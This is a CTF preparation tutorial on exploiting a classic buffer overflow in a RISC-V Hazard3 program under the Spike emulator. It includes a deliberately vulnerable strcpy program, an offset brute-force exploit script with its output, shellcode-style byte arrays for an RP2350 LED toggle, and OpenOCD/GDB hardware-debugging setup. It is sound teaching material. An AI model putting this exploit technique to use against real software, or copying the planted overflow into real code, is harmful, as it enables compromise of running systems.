- [BSim Tutorial](https://ghidra.re/ghidra_docs/GhidraClass/BSim/README.html)

# Learn How to exploit a Classic Buffer Overflow on RISCV Hazard3 using Spike emulator

## Compile Spike

```
sudo apt-get update
sudo apt-get install git build-essential autoconf automake autotools-dev curl python3 libmpc-dev libmpfr-dev libgmp-dev gawk build-essential bison flex texinfo gperf libtool patchutils bc zlib1g-dev libexpat-dev device-tree-compiler libboost-regex-dev libboost-system-dev
``` 

```
cd /home/dreg 
mkdir RISCV
export RISCV=/home/dreg/RISCV
export PATH=$PATH:$RISCV/bin
```

```
cd /home/dreg/RISCV
git clone https://github.com/riscv/riscv-pk
git clone https://github.com/riscv/riscv-isa-sim
git clone --recursive https://github.com/riscv/riscv-gnu-toolchain
```

```
cd /home/dreg/RISCV/riscv-gnu-toolchain
mkdir build
cd build
../configure --prefix=$RISCV --with-arch=rv32imac_zicsr_zifencei_zba_zbb_zbs --with-abi=ilp32
make
```

```
cd /home/dreg/RISCV/riscv-pk
mkdir build
cd build
../configure --prefix=$RISCV --host=riscv32-unknown-elf
make
make install
```

```
cd /home/dreg/RISCV/riscv-isa-sim
mkdir build
cd build
../configure --prefix=$RISCV --enable-histogram
make
make install
```

### Test if works

poc.c (/home/dreg/RISCV/poc.c)
```
#include <stdio.h>
int main()
{
    printf("Hello Dreg RISCV!\n");
    return 0;
}
```

Compile poc.c
```
cd /home/dreg/RISCV
/home/dreg/RISCV/bin/riscv32-unknown-elf-gcc -march=rv32imac_zicsr_zifencei_zba_zbb_zbs -mabi=ilp32 -static -g poc.c -o poc
```

Execute poc on Spike
```
cd /home/dreg/RISCV
/home/dreg/RISCV/bin/spike --isa=rv32imac_zicsr_zifencei_zba_zbb_zbs "/home/dreg/RISCV/riscv32-unknown-elf/bin/pk" poc
```

The output should be:
```
Hello Dreg RISCV!
```

Congratulations, you have successfully compiled and run a RISCV program using Spike emulator!

## How to use Spike debugger

Debugging main function:

```
cd /home/dreg/RISCV/
/home/dreg/RISCV/bin/riscv32-unknown-elf-objdump -D poc
```

main function in my case at 0x00010154

```
.....
0001016a <main>:
   1016a:       1141                    addi    sp,sp,-16
   1016c:       c606                    sw      ra,12(sp)
   1016e:       c422                    sw      s0,8(sp)
   10170:       0800                    addi    s0,sp,16
   10172:       67c9                    lui     a5,0x12
   10174:       43c78513                addi    a0,a5,1084 # 1243c <__errno+0x6>
   10178:       26ad                    jal     104e2 <puts>
   1017a:       4781                    li      a5,0
   1017c:       853e                    mv      a0,a5
   1017e:       40b2                    lw      ra,12(sp)
   10180:       4422                    lw      s0,8(sp)
   10182:       0141                    addi    sp,sp,16
   10184:       8082                    ret
.....
```


```
cd /home/dreg/RISCV/
/home/dreg/RISCV/bin/spike -d --isa=rv32imac_zicsr_zifencei_zba_zbb_zbs "/home/dreg/RISCV/riscv32-unknown-elf/bin/pk" poc 
```

Inside spike debugger:

```
(spike) until pc 0 0x0001016a
(spike) pc 0
0x0001016a
```   

Now you are at the beginning of main function, press enter to step through instructions one by one.

```
(spike) 
core   0: 0x0001016a (0x00001141) c.addi  sp, -16
(spike) 
core   0: 0x0001016c (0x0000c606) c.swsp  ra, 12(sp)
(spike) 
core   0: 0x0001016e (0x0000c422) c.swsp  s0, 8(sp)
(spike) 
core   0: 0x00010170 (0x00000800) c.addi4spn s0, sp, 16
```

You can use the `help` command to see more options. 

Spike is a VERY basic debugger, so combine external `riscv32-unknown-elf-objdump`, `dump` (spike command) + external `hexdump` to analyze memory and code more effectively...


## Crap POC example

Crap POC example of classic buffer overflow exploiting on RISCV Hazard3 using Spike emulator.

On RISCV, the return address can be stored in a register rather than on the stack like on x86. To enable stack-based return address overwriting, I added nested function calls to push the return address onto the stack.

test.c 
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
static unsigned char buff[0x100] = { 0 };
static void __attribute__((optimize("O0"))) func3(unsigned char* exbuff)
{
        strcpy((char*)exbuff, (char*)buff);
}
static void __attribute__((optimize("O0"))) func2(unsigned char* exbuff)
{
        func3(exbuff);
}

static void __attribute__((optimize("O0"))) func1(void)
{
        unsigned char exbuff[10] = { 0 };
        func2(exbuff);
}

static void __attribute__((optimize("O0"))) func_impossible(void)
{
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("This function is impossible to reach\n");
        printf("good hacker!\n");
        exit(0);
}

int main(int argc, char* argv[])
{
        printf("\nhttps://github.com/therealdreg/hcon2026hwctf\n");
        printf("Classic Buffer Overflow Exploiting on RISCV HAZARD3 by Dreg\n");
        printf("func_impossible address: %p\n", func_impossible);
        if (argc < 2)
        {
                printf("Error, must execute with one arg\n");
                return 1;
        }
        printf("argv 1: %s\n", argv[1]);
        strcpy((char*)buff, argv[1]);
        func1();
        return 0;
}
```

dotest.sh
``` 
#!/usr/bin/env bash

# https://github.com/therealdreg/hcon2026hwctf
# by Dreg - @therealdreg

set -x

RISCV=/home/dreg/RISCV
PATH=$PATH:$RISCV/bin
ARCH="rv32imac_zicsr_zifencei_zba_zbb_zbs"
ABI="ilp32"

CC="riscv32-unknown-elf-gcc"
PK="$RISCV/riscv32-unknown-elf/bin/pk"
ISA_SPIKE="$ARCH"

$CC -march=$ARCH -mabi=$ABI -static -g test.c -o test

file test

spike --isa=$ISA_SPIKE "$PK" test AA

echo

spike --isa=$ISA_SPIKE "$PK" test AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

After dotest.sh this is the output
```
....
+ spike --isa=rv32imac_zicsr_zifencei_zba_zbb_zbs /home/dreg/RISCV/riscv32-unknown-elf/bin/pk test AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

https://github.com/therealdreg/hcon2026hwctf
Classic Buffer Overflow Exploiting on RISCV HAZARD3 by Dreg
func_impossible address: 0x101d2
argv 1: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
z  00000000 ra 41414141 sp 7ffffd20 gp 0001c810
tp 00000000 t0 000003e8 t1 0000006a t2 00000001
s0 41414141 s1 00000000 a0 7ffffd04 a1 0001c7c4
a2 7ffffd64 a3 00000000 a4 00000000 a5 00000041
a6 ffffffff a7 00000040 s2 00000000 s3 00000000
s4 00000000 s5 00000000 s6 00000000 s7 00000000
s8 00000000 s9 00000000 sA 00000000 sB 00000000
t3 00000000 t4 00000000 t5 00008801 t6 00000005
pc 41414140 va/inst 41414140 sr 80006020
User fetch segfault @ 0x41414140
```

As you can see, we successfully overflowed the buffer and controlled the program counter (pc) to point to 0x41414140, which corresponds to 'AAAA' in ASCII.

Now let's create the CRAP poc-exploit payload to redirect execution to the func_impossible function.

To create the exploit payload, we need to determine the correct offset to overwrite the return address and then append the address of the func_impossible function.

xpl.sh
```
#!/usr/bin/env bash

# https://github.com/therealdreg/hcon2026hwctf
# by Dreg - @therealdreg
# Bruteforce offset script for RISCV Hazard3 buffer overflow

set -e

RISCV=/home/dreg/RISCV
PATH=$PATH:$RISCV/bin
ARCH="rv32imac_zicsr_zifencei_zba_zbb_zbs"
ABI="ilp32"

CC="riscv32-unknown-elf-gcc"
PK="$RISCV/riscv32-unknown-elf/bin/pk"
ISA_SPIKE="$ARCH"

echo "[+] Compiling test.c..."
$CC -march=$ARCH -mabi=$ABI -static -g test.c -o test

echo "[+] Getting func_impossible address..."
FUNC_ADDR=$(spike --isa=$ISA_SPIKE "$PK" test AA 2>&1 | grep "func_impossible address:" | awk '{print $3}')

if [ -z "$FUNC_ADDR" ]; then
    echo "[-] Error: Could not get func_impossible address"
    exit 1
fi

echo "[+] func_impossible address: $FUNC_ADDR"

# Convert hex address to decimal and then to little-endian bytes
ADDR_DEC=$((FUNC_ADDR))
BYTE1=$(printf '%02x' $((ADDR_DEC & 0xFF)))
BYTE2=$(printf '%02x' $(((ADDR_DEC >> 8) & 0xFF)))
BYTE3=$(printf '%02x' $(((ADDR_DEC >> 16) & 0xFF)))
BYTE4=$(printf '%02x' $(((ADDR_DEC >> 24) & 0xFF)))

echo "[+] Address bytes (little-endian): \\x$BYTE1 \\x$BYTE2 \\x$BYTE3 \\x$BYTE4"

echo "[+] Starting bruteforce for offset..."

for OFFSET in {10..100}; do
    echo "[*] Testing offset: $OFFSET"
    
    # Create payload with OFFSET bytes of 'A' + target address in little-endian
    python3 -c "import sys; sys.stdout.buffer.write(b'A'*${OFFSET} + bytes.fromhex('${BYTE1}${BYTE2}${BYTE3}${BYTE4}'))" > exploit_payload.bin
    
    # Run spike and capture output
    OUTPUT=$(spike --isa=$ISA_SPIKE "$PK" test "$(cat exploit_payload.bin)" 2>&1 || true)
    
    # Check if func_impossible was executed
    if echo "$OUTPUT" | grep -q "This function is impossible to reach"; then
        echo ""
        echo "[+] SUCCESS! Offset found: $OFFSET"
        echo "[+] Exploit payload saved to: exploit_payload.bin"
        echo "[+] Target address: $FUNC_ADDR"
        echo ""
        echo "[+] Output:"
        echo "$OUTPUT"
        echo ""
        echo "[+] To reproduce:"
        SPIKE_PATH=$(which spike)
        echo "$SPIKE_PATH --isa=$ISA_SPIKE \"$PK\" test \"\$(cat exploit_payload.bin)\""
        exit 0
    fi
done

echo "[-] Offset not found in range 10-100"
exit 1
```

Example output after running xpl.sh
```
[+] Compiling test.c...
[+] Getting func_impossible address...
[+] func_impossible address: 0x101e2
[+] Address bytes (little-endian): \xe2 \x01 \x01 \x00
[+] Starting bruteforce for offset...
[*] Testing offset: 10
[*] Testing offset: 11
[*] Testing offset: 12
[*] Testing offset: 13
[*] Testing offset: 14
[*] Testing offset: 15
[*] Testing offset: 16
[*] Testing offset: 17
[*] Testing offset: 18
[*] Testing offset: 19
[*] Testing offset: 20
[*] Testing offset: 21

[+] SUCCESS! Offset found: 21
[+] Exploit payload saved to: exploit_payload.bin
[+] Target address: 0x101e2

[+] Output:

https://github.com/therealdreg/hcon2026hwctf
Classic Buffer Overflow Exploiting on RISCV HAZARD3 by Dreg
func_impossible address: 0x101e2
argv 1: AAAAAAAAAAAAAAAAAAAAA�
�AAAAAAAAA�
This function is impossible to reach
This function is impossible to reach
This function is impossible to reach
This function is impossible to reach
This function is impossible to reach
This function is impossible to reach
good hacker!

[+] To reproduce:
/home/dreg/RISCV/bin/spike --isa=rv32imac_zicsr_zifencei_zba_zbb_zbs "/home/dreg/RISCV/riscv32-unknown-elf/bin/pk" test "$(cat exploit_payload.bin)"
```

hexdump -C exploit_payload.bin 
```
00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000010  41 41 41 41 41 e2 01 01  00                       |AAAAA....|
```

`xpl.sh` script is a CRAP POC that successfully brute-forces the offset required to reach the `func_impossible` function. You may need to modify or adapt the exploit to suit your specific requirements. 

# Payload / Shellcode writting RISCV Hazard3

This section demonstrates the transition from high-level C code to raw instruction shellcode for the Hazard3 RISC-V core. We will start with a standard Pico SDK project and progressively strip away abstractions until we can execute raw machine code from a byte array.

Install the cross-compilation toolchain and clone the Pico SDK.

```
# Install dependencies
sudo apt-get update
sudo apt-get install cmake python3 build-essential gcc-arm-none-eabi libnewlib-arm-none-eabi libstdc++-arm-none-eabi-newlib git
```

```
# Create workspace
cd && mkdir ~/PAYLOAD
```

```
# Clone SDK v2.2.0
cd ~/PAYLOAD
git clone --recursive --branch 2.2.0 https://github.com/raspberrypi/pico-sdk.git
```
Configure the project specifically for the RP2350 using the RISC-V architecture. Note that we define the platform and toolchain versions to ensure compatibility. 

File: `~/PAYLOAD/CMakeLists.txt`
```
set(PICO_PLATFORM rp2350-riscv)
set(PICO_BOARD pico2 CACHE STRING "Board type")
set(sdkVersion 2.2.0)
set(toolchainVersion RISCV_ZCB_RPI_2_2_0_3)

cmake_minimum_required(VERSION 3.13...3.27)

include(pico-sdk/pico_sdk_init.cmake)

project(my_project)

pico_sdk_init()

add_executable(poc
    poc.c
)

target_link_libraries(poc pico_stdlib)

pico_enable_stdio_usb(poc 1)
pico_enable_stdio_uart(poc 0)

pico_add_extra_outputs(poc)
```

## A simple C file

We begin with a simple C program that toggles a GPIO. This version relies on external SDK functions.

File: `~/PAYLOAD/poc.c`
```
#include <stdio.h>
#include "pico/stdlib.h"

static void __attribute__((optimize("O0"))) onled(void) {
    gpio_put(25, 1);
}

int main() {
    gpio_init(25);
    gpio_set_dir(25, GPIO_OUT);
    onled();
    
    sleep_ms(1000);
    stdio_init_all();
    sleep_ms(1000);
    
    while (1)
    {
    	sleep_ms(500);
    	gpio_put(25, 0);
    	printf("HI Dreg!\n");
    	sleep_ms(500);
    	onled();
    }
    return 0;
}
```
Compile the project and inspect the resulting binary.
```
cd ~/PAYLOAD/
rm -rf build/ && cmake -S . -B build && make -C build -j
```

File: `~/PAYLOAD/build/poc.elf`
```
~/PAYLOAD/build/poc.elf: ELF 32-bit LSB executable, UCB RISC-V, RVC, soft-float ABI, version 1 (SYSV), statically linked, with debug_info, not stripped
```
If we check the disassembly, we can see how the compiler handles the function calls.

File: `~/PAYLOAD/build/poc.dis`
```
....
1000012e <onled>:
1000012e:       1141                    addi    sp,sp,-16
10000130:       c606                    sw      ra,12(sp)
10000132:       c422                    sw      s0,8(sp)
10000134:       0800                    addi    s0,sp,16
10000136:       4585                    li      a1,1
10000138:       4565                    li      a0,25
1000013a:       2031                    jal     10000146 <gpio_put>
1000013c:       0001                    nop
1000013e:       40b2                    lw      ra,12(sp)
10000140:       4422                    lw      s0,8(sp)
10000142:       0141                    addi    sp,sp,16
10000144:       8082                    ret
....
10000146 <gpio_put>:
10000146:       28a01533                bset    a0,zero,a0
1000014a:       d00007b7                lui     a5,0xd0000
1000014e:       c199                    beqz    a1,10000154 <gpio_put+0xe>
10000150:       cf88                    sw      a0,24(a5)
10000152:       8082                    ret
10000154:       d388                    sw      a0,32(a5)
10000156:       8082                    ret
....
```

## A C file with asm code (no external call)
To create a standalone payload, we must avoid external jumps. We rewrite the function using inline assembly to interact directly with hardware registers.

File: `~/PAYLOAD/poc_with_asm.c`
```
#include <stdio.h>
#include "pico/stdlib.h"

__attribute__((naked, optimize("O0"))) void onled(void) {
 __asm__ volatile(
 
    "addi sp, sp, -16\n\t"
    "sw   ra, 12(sp)\n\t"
    "sw   s0,  8(sp)\n\t"
    "addi s0, sp, 16\n\t"

 
    "li   a1, 1\n\t"
    "li   a0, 25\n\t"

 
    "bset a0, zero, a0\n\t"   
    "lui  a5, 0xd0000\n\t"     
    "beqz a1, 1f\n\t"          
    "sw   a0, 24(a5)\n\t"      
    "j    2f\n\t"
    "1:\n\t"
    "sw   a0, 32(a5)\n\t"      
    "2:\n\t"

    "nop\n\t"

    "lw   ra, 12(sp)\n\t"
    "lw   s0,  8(sp)\n\t"
    "addi sp, sp, 16\n\t"
    "ret\n\t"
  );
}

int main() {
    gpio_init(25);
    gpio_set_dir(25, GPIO_OUT);
    onled();
    
    sleep_ms(1000);
    stdio_init_all();
    sleep_ms(1000);
    
    while (1)
    {
    	sleep_ms(500);
    	gpio_put(25, 0);
    	printf("HI Dreg!\n");
    	sleep_ms(500);
    	onled();
    }
    return 0;
}
```
Now the disassembly shows that the function is now entirely self-contained:

File: `~/PAYLOAD/build/poc_with_asm.dis`
```
1000012e <onled>:
1000012e:       1141                    addi    sp,sp,-16
10000130:       c606                    sw      ra,12(sp)
10000132:       c422                    sw      s0,8(sp)
10000134:       0800                    addi    s0,sp,16
10000136:       4585                    li      a1,1
10000138:       4565                    li      a0,25
1000013a:       28a01533                bset    a0,zero,a0
1000013e:       d00007b7                lui     a5,0xd0000
10000142:       c199                    beqz    a1,10000148 <onled+0x1a>
10000144:       cf88                    sw      a0,24(a5)
10000146:       a011                    j       1000014a <onled+0x1c>
10000148:       d388                    sw      a0,32(a5)
1000014a:       0001                    nop
1000014c:       40b2                    lw      ra,12(sp)
1000014e:       4422                    lw      s0,8(sp)
10000150:       0141                    addi    sp,sp,16
10000152:       8082                    ret
10000154:       0001                    nop
```

## A C file with payload code / shellcode style
Extract the opcodes into a byte array and execute it by casting it to a function pointer.

File: `~/PAYLOAD/poc_payload_asm.c`
```
#include <stdio.h>
#include "pico/stdlib.h"

unsigned char payload[] = {
"\x41\x11"              // 1141
"\x06\xc6"              // c606
"\x22\xc4"              // c422
"\x00\x08"              // 0800
"\x85\x45"              // 4585
"\x65\x45"              // 4565
"\x33\x15\xa0\x28"      // 28a01533
"\xb7\x07\x00\xd0"      // d00007b7
"\x99\xc1"              // c199
"\x88\xcf"              // cf88
"\x11\xa0"              // a011
"\x88\xd3"              // d388
"\x01\x00"              // 0001
"\xb2\x40"              // 40b2
"\x22\x44"              // 4422
"\x41\x01"              // 0141
"\x82\x80"              // 8082
"\x01\x00"              // 0001
};

int main() {
    gpio_init(25);
    gpio_set_dir(25, GPIO_OUT);
    ((void (*)(void))(void*)payload)();
    
    sleep_ms(1000);
    stdio_init_all();
    sleep_ms(1000);
    
    while (1)
    {
    	sleep_ms(500);
    	gpio_put(25, 0);
    	printf("HI Dreg!\n");
    	sleep_ms(500);
    	((void (*)(void))(void*)payload)();
    }
    return 0;
}
```
After building, we can verify that the payload is correctly mapped in memory

File: `~/PAYLOAD/build/poc_payload_asm.dis`
```
20000e74 <payload>:
20000e74:       1141 c606 c422 0800 4585 4565 1533 28a0     A..."....EeE3..(
20000e84:       07b7 d000 c199 cf88 a011 d388 0001 40b2     ...............@
20000e94:       4422 0141 8082 0001 0000 0000               "DA.........
```

# Hardware Debugging

One of the challenges requires you to team up with another participant or have two RP2350 boards to do real hardware debugging; let's learn how to do it.

(You need pico-sdk installed)

/etc/udev/rules.d/99-pico.rules
```
# BOOTSEL mass storage
SUBSYSTEMS=="usb", ATTRS{idVendor}=="2e8a", ATTRS{idProduct}=="0003", MODE:="0666"
# Pico normal mode (USB CDC/HID); útil para picotool
SUBSYSTEMS=="usb", ATTRS{idVendor}=="2e8a", ATTRS{idProduct}=="0009", MODE:="0666"
# CMSIS-DAP probes (ej. RP Debug)
SUBSYSTEMS=="usb", ATTRS{idVendor}=="0d28", MODE:="0666"
```

/etc/udev/rules.d/99-openocd.rules
```
# Sample udev rules for OpenOCD and Raspberry Pi / common debug probes
# Copy (as root) to /etc/udev/rules.d/99-openocd.rules and reload udev.
# Choose MODE/GROUP according to your security policy. Using GROUP="plugdev" and MODE="0660" is safer than 0666.
# Ensure your user is in the chosen group (e.g. plugdev or dialout).

# Raspberry Pi Pico in BOOTSEL (UF2 mass-storage + HID)
SUBSYSTEM=="usb", ATTR{idVendor}=="2e8a", ATTR{idProduct}=="0003", GROUP="plugdev", MODE="0660"

# Raspberry Pi Debug Probe (CMSIS-DAP) composite interface
# (VID 2e8a, PID 000c) Provides CMSIS-DAP and UART CDC.
SUBSYSTEM=="usb", ATTR{idVendor}=="2e8a", ATTR{idProduct}=="000c", GROUP="plugdev", MODE="0660"
# Optional: allow tty device of Debug Probe (UART) for dialout group
SUBSYSTEM=="tty", ATTRS{idVendor}=="2e8a", ATTRS{idProduct}=="000c", GROUP="dialout", MODE="0660"

# Picoprobe (RP2040 running picoprobe firmware)
# Often appears as VID 2e8a PID 0004
SUBSYSTEM=="usb", ATTR{idVendor}=="2e8a", ATTR{idProduct}=="0004", GROUP="plugdev", MODE="0660"

# Generic Arm DAPLink devices (mbed) - vendor 0d28
SUBSYSTEM=="usb", ATTR{idVendor}=="0d28", GROUP="plugdev", MODE="0660"

# ST-Link V2/V3 (STMicroelectronics)
SUBSYSTEM=="usb", ATTR{idVendor}=="0483", ATTR{idProduct}=="3748", GROUP="plugdev", MODE="0660"  # ST-Link V2
SUBSYSTEM=="usb", ATTR{idVendor}=="0483", ATTR{idProduct}=="374b", GROUP="plugdev", MODE="0660"  # ST-Link V2-1
SUBSYSTEM=="usb", ATTR{idVendor}=="0483", ATTR{idProduct}=="3752", GROUP="plugdev", MODE="0660"  # ST-Link V3

# SEGGER J-Link (example common VID/PID)
SUBSYSTEM=="usb", ATTR{idVendor}=="1366", GROUP="plugdev", MODE="0660"

# FTDI-based adapters (optional; restrict if needed)
SUBSYSTEM=="usb", ATTR{idVendor}=="0403", GROUP="plugdev", MODE="0660"

# CMSIS-DAP HID interface sometimes enumerates under hidraw; ensure access if needed
KERNEL=="hidraw*", ATTRS{idVendor}=="2e8a", MODE="0660", GROUP="plugdev"
KERNEL=="hidraw*", ATTRS{idVendor}=="0d28", MODE="0660", GROUP="plugdev"

# After copying: sudo udevadm control --reload-rules && sudo udevadm trigger
# Unplug/replug devices or run: sudo udevadm trigger -v -c add -s usb

# Verify: ls -l /dev/hidraw* /dev/ttyACM* ; lsusb -v -d 2e8a:000c
# Test OpenOCD without sudo: openocd -f interface/cmsis-dap.cfg -f target/rp2040.cfg
```

```
sudo udevadm control -R
```

First, you need to flash a .uf2 RISCV firmware onto the target board. Since the CTF uses RISCV firmware, this step isn't necessary. And besides, you want to debug that firmware!

Convert one RP2350 board to Hardware-Debugger-board with this firmware: https://github.com/raspberrypi/debugprobe/releases/download/debugprobe-v2.2.3/debugprobe_on_pico2.uf2

Connect the hardware debugger board to the target board



Connect RISCV-openocd
```
cd /home/dreg/.pico-sdk/openocd/0.12.0+dev/scripts
```

```
/home/dreg/.pico-sdk/openocd/0.12.0+dev/openocd \
  -s /home/dreg/.pico-sdk/openocd/0.12.0+dev/scripts \
  -f interface/cmsis-dap.cfg \
  -f target/rp2350-riscv.cfg \
  -c "set USE_CORE { rv0 }" \
  -c "adapter speed 5000" \
  -c "gdb breakpoint_override hard" \
  -c "init"
```

Output:
```
Open On-Chip Debugger 0.12.0+dev (2025-10-09-12:15)
Licensed under GNU GPL v2
For bug reports, read
	http://openocd.org/doc/doxygen/bugs.html
Info : [rp2350.rv0] Hardware thread awareness created
Info : [rp2350.rv1] Hardware thread awareness created
ocd_process_reset_inner
 rv0 
adapter speed: 5000 kHz
force hard breakpoints
Info : Using CMSIS-DAPv2 interface with VID:PID=0x2e8a:0x000c, serial=E6616407E3953729
Info : CMSIS-DAP: SWD supported
Info : CMSIS-DAP: Atomic commands supported
Info : CMSIS-DAP: Test domain timer supported
Info : CMSIS-DAP: FW Version = 2.0.0
Info : CMSIS-DAP: Interface Initialised (SWD)
Info : SWCLK/TCK = 0 SWDIO/TMS = 0 TDI = 0 TDO = 0 nTRST = 0 nRESET = 0
Info : CMSIS-DAP: Interface ready
Info : clock speed 5000 kHz
Info : SWD DPIDR 0x4c013477
Info : [rp2350.rv0] datacount=1 progbufsize=2
Info : [rp2350.rv0] Disabling abstract command reads from CSRs.
Info : [rp2350.rv0] Disabling abstract command writes to CSRs.
Info : [rp2350.rv0] Core 0 could not be made part of halt group 1.
Info : [rp2350.rv0] Examined RISC-V core
Info : [rp2350.rv0]  XLEN=32, misa=0x40901105
Info : [rp2350.rv0] Examination succeed
Info : [rp2350.rv1] datacount=1 progbufsize=2
Info : [rp2350.rv1] Disabling abstract command reads from CSRs.
Info : [rp2350.rv1] Disabling abstract command writes to CSRs.
Info : [rp2350.rv1] Core 1 could not be made part of halt group 1.
Info : [rp2350.rv1] Examined RISC-V core
Info : [rp2350.rv1]  XLEN=32, misa=0x40901105
Info : [rp2350.rv1] Examination succeed
Info : [rp2350.rv0] starting gdb server on 3333
Info : Listening on port 3333 for gdb connections
Info : Listening on port 6666 for tcl connections
Info : Listening on port 4444 for telnet connections
```

Now connect RISCV-GDB:

```
/home/dreg/.pico-sdk/toolchain/RISCV_ZCB_RPI_2_2_0_3/bin/riscv32-unknown-elf-gdb -q \
  -ex "set pagination off" \
  -ex "set remote interrupt-on-connect off" \
  -ex "target remote localhost:3333" \
  -ex "monitor targets rp2350.rv0" \
  -ex "monitor halt" \
  -ex "info reg"
```

Output:
```
Remote debugging using localhost:3333
warning: No executable has been specified and target does not support
determining executable automatically.  Try using the "file" command.
0x20001d56 in ?? ()
rp2350.rv0 halted due to breakpoint.
rp2350.rv1 halted due to debug-request.
ra             0x2001041c	0x2001041c
sp             0x20010400	0x20010400
gp             0x20031455	0x20031455
tp             0x0	0x0
t0             0x2000d7ba	536926138
t1             0x6a8c	27276
t2             0x200103a0	536937376
fp             0x20082000	0x20082000
s1             0x20010450	536937552
a0             0x0	0
a1             0x7232	29234
a2             0xffa00000	-6291456
a3             0x7206	29190
a4             0x0	0
a5             0xbdf0	48624
a6             0x7750	30544
a7             0x1	1
s2             0x10000036	268435510
s3             0x0	0
s4             0x0	0
s5             0x0	0
s6             0x0	0
s7             0x0	0
s8             0x0	0
s9             0x0	0
s10            0x0	0
s11            0x0	0
t3             0x200103d4	536937428
t4             0x0	0
t5             0x6b0c	27404
t6             0x74f8	29944
pc             0x20001d56	0x20001d56
```

Disas 10 instructions from current pc using x/10i $pc:
```
(gdb) x/10i $pc
=> 0x20001d56:	lui	a5,0x20031
   0x20001d5a:	lbu	a5,-931(a5)
   0x20001d5e:	.insn	2, 0x9fe1
   0x20001d60:	xori	a5,a5,1
   0x20001d64:	.insn	2, 0x9fe1
   0x20001d66:	bnez	a5,0x20001d54
   0x20001d68:	li	a0,2000
   0x20001d6c:	jal	0x20004ce2
   0x20001d70:	nop
   0x20001d72:	li	a5,1
```

From this point you can debug the chip.

## Black Magic Debug Probe RP2350 RISCV Hazard3 



Buy Black Magic Debug Probe: With JTAG Cable, 0.1" UART Cable and 20pin adapter:
- https://1bitsquared.de/products/black-magic-probe

/etc/udev/rules.d/99-blackmagic-plugdev.rules
```
# Black Magic Probe
# there are two connections, one for GDB and one for UART debugging
# copy this to /etc/udev/rules.d/99-blackmagic.rules
# and run sudo udevadm control -R
ACTION!="add|change|bind", GOTO="blackmagic_rules_end"
SUBSYSTEM=="tty", ACTION=="add", ATTRS{interface}=="Black Magic GDB Server", SYMLINK+="ttyBmpGdb"
SUBSYSTEM=="tty", ACTION=="add", ATTRS{interface}=="Black Magic UART Port", SYMLINK+="ttyBmpTarg"
SUBSYSTEM=="tty", ACTION=="add", ATTRS{interface}=="Black Magic GDB Server", SYMLINK+="ttyBmpGdb%E{ID_SERIAL_SHORT}"
SUBSYSTEM=="tty", ACTION=="add", ATTRS{interface}=="Black Magic UART Port", SYMLINK+="ttyBmpTarg%E{ID_SERIAL_SHORT}"
SUBSYSTEMS=="usb", ATTRS{idVendor}=="1d50", ATTRS{idProduct}=="6017", MODE="0666", GROUP="plugdev", TAG+="uaccess"
SUBSYSTEMS=="usb", ATTRS{idVendor}=="1d50", ATTRS{idProduct}=="6018", MODE="0666", GROUP="plugdev", TAG+="uaccess"
LABEL="blackmagic_rules_end"
```

```
sudo udevadm control -R
```

Upgrade:
- https://black-magic.org/upgrade.html

```
cd /home/dreg/Downloads/bmputil-x86_64-unknown-linux-gnu-v1.0.0/bmputil-x86_64-unknown-linux-gnu-v1.0.0
```

Black Magic Debug for BMP (RISC-V targets):
```
./bmputil-cli probe update

Updating release metadata cache                                                                                                                                                                                    [2026-01-08T13:26:22Z INFO  bmputil::metadata] Validating v1 metadata with 18 releases present
[2026-01-08T13:26:22Z INFO  bmputil_cli] Upgrading probe firmware from 1.10.2 to 2.0.0
✔ Which firmware variant would you like to run on your probe? · Black Magic Debug for BMP (RISC-V targets)
✔ What action would you like to take with this firmware? · Flash to probe
  Downloading requested firmware                                                                                                                                                                                                                                       Found: Black Magic Probe 1.10.2
  Serial: BEF6A9B0
  Port:  1-3
Erasing flash...
Flashing...
 100% |........................................................| 77.99 KiB/77.99 KiB [4.66 KiB/s 17s]                                                                                                                [2026-01-08T13:26:49Z INFO  bmputil::flasher] Flash complete!
```

```
cd /home/dreg/Downloads/bmputil-x86_64-unknown-linux-gnu-v1.0.0/bmputil-x86_64-unknown-linux-gnu-v1.0.0
```

```
./bmputil-cli probe info
Found: Black Magic Probe 2.0.0
  Serial: BEF6A9B0
  Port:  1-3
```

```
./bmputil-cli probe update
Updating release metadata cache                                                                                                                                                                                    [2026-01-08T13:27:41Z INFO  bmputil::metadata] Validating v1 metadata with 18 releases present
[2026-01-08T13:27:41Z INFO  bmputil_cli] Latest release 2.0.0 is not newer than firmware version 2.0.0, not updating
```

```
/home/dreg/.pico-sdk/toolchain/RISCV_ZCB_RPI_2_2_0_3/bin/riscv32-unknown-elf-gdb
```

```
(gdb)  target extended-remote /dev/ttyBmpGdb
